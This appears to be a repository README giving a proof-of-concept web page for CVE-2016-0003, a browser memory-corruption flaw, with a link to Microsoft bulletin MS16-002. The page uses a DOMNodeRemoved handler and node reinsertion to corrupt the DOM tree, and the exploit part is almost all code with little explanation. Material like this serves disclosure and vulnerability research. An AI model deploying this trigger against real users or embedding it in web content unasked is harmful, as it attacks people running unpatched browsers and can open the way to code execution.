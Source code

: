# CVE-2016-0003

## PoC

```html
<html>
  <head>
    <script>
      document.addEventListener("DOMNodeRemoved", function(oEvent) {
        oTextNode = document.createTextNode("");
        document.body.insertBefore(oTextNode);
      }, true);
      onload = function(){
        document.body.appendChild(oExistingChild);
        for (var oNode = document.body.firstChild;
             oNode && oNode != oNode.nextSibling; // note #1 below
             oNode = oNode.nextSibling
        ) {
          // Doing this seems to be required to avoid triggering an assert.
          // The tree is corrupt in that oTextNode.nextSibling == oTextNode
          // hence the extra check at #1 to prevent an infinite loop.
        }
        alert(oTextNode.nodeValue);
      }
    </script>
  </head>
  <body id=oParent>x<x id=oExistingChild>x</x></body>
</html>
```

## Reference

+ [Microsoft Security Bulletin](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-002)


